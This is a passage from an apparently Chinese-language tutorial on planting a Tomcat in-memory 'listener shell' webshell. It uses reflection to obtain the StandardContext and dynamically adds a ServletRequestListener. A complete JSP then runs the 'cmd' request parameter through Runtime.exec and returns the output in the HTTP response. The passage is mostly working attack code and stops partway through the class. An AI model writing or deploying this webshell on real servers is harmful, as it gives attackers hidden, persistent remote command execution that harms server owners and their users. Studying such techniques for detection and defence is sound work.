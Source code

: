 step1-自定义listener

```
略
```

step2-获取context

> ```java
> // 从servletContext中获取context属性 -> applicationContext
> // 从applicationContext中获取context属性 -> standardContext*/
> ServletContext servletContext = request.getServletContext();
> Field appctx = servletContext.getClass().getDeclaredField("context");
> appctx.setAccessible(true);
> ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
> Field stdctx = applicationContext.getClass().getDeclaredField("context");
> stdctx.setAccessible(true);
> StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
> ```

step3-调用addApplicationEventListener()动态添加Listener

> ```java
> ListenerDemo SRL = new ListenerDemo();
> standardContext.addApplicationEventListener(SRL);
> out.println("listener shell inject success");
> ```

代码整合如下

> ```jsp
> <%@ page import="java.lang.reflect.Field" %>
> <%@ page import="org.apache.catalina.core.ApplicationContext" %>
> <%@ page import="org.apache.catalina.core.StandardContext" %>
> <%@ page import="java.io.IOException" %>
> <%@ page import="org.apache.catalina.connector.Request" %>
> <%
>     class ListenerDemo implements ServletRequestListener {
>         @Override
>         public void requestInitialized(ServletRequestEvent sre) {
>             HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
>             String cmd = sre.getServletRequest().getParameter("cmd");
>             try {
>                 if (cmd != null) {
>                     Process process = Runtime.getRuntime().exec(cmd);
>                     java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
>                     Field requestF = req.getClass().getDeclaredField("request");
>                     requestF.setAccessible(true);
>                     Request request = (Request) requestF.get(req);
>                     StringBuilder stringBuilder = new StringBuilder();
>                     String line;
>                     while ((line = bufferedReader.readLine()) != null) {
>                         stringBuilder.append(line + '\n');
>                     }
>                     request.getResponse().getOutputStream().write(stringBuilder.toString().getBytes());
>                     request.getResponse().getOutputStream().flush();
>                     request.getResponse().getOutputStream().close();
>                 }
>             } catch (NoSuchFieldException | IllegalAccessException | IOException e) {
>                 e.printStackTrace();
>             }
>         }
> 
>         @Override
>         public void requestDestroyed(ServletRequestEvent sre) {